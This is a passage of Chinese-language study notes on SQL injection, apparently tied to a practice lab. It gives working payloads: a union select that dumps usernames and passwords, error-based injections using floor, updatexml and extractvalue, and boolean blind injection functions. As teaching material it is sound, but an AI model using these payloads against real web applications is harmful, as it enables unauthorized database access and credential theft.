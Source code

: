 
```sql
6-爆值 ?id=-1' union select 1,2,group_concat(username,0x2b,password) from users --+ 
得到：（+分隔账号密码） Dumb+Dumb,I-kill-you+Angelina,.....
```

### 报错注入

 - 适用：`页面中会显示SQL的报错信息 `
   但一般情况下SQL的报错信息是不会显示在页面中的，必须在在php.ini 进行配置`display_errors=On`   *--(开启PHP错误回显)*  

 - SQL报错信息被显示在页面上  
   (即通过 `echo mysqli_error($con)` 将错误信息输出到页面)

#### floor函数

```sql
' and (select count(*) from information_schema.tables group by concat((查询语句),floor(rand(0)*2))) --+
```

#### updataxml函数

```sql
' and (select updatexml(1,concat(0x7e,(查询语句),0x7e),1))--+
```

#### extractvalue函数

```sql
' and (select extractvalue(1,concat(0x7e,(查询语句),0x7e)))--+
```

### bool盲注

 - 适用条件： 
   `无查询结果、报错信息的回显，但页面会根据查询结果的正确与否变化的情况`
  - 真实渗透中手动盲注与sqlmap比起来效率太低，实战中还是使用sqlmap，但一定要熟知原理


-常用函数：

```sql
截取
substr()、substring()、id():
substring()和mid()的用法和substr()一样，但是mid()是为了向下兼容VB6.0，已经过时，以上的几个函数的pos都是从1开始的
eg:
substr(string, pos, len): 从pos开始，取长度为len的子串
substr(string, pos): 从pos开始，取到string的最后

left()和right():
left(string, len)和right(string, len): 分别是从左或从右取string中长度为len的子串
limit
limit pos len: 在返回项中从pos开始去len个返回值，pos的从0开始

ascii()和char()和ord():
ascii(char): 把char这个字符转为ascii码
char(ascii_int): 和ascii()的作用相反，将ascii码转字符
ord(str): 如果字符串str句首是单字节返回与ascii()函数返回的相同值。
```
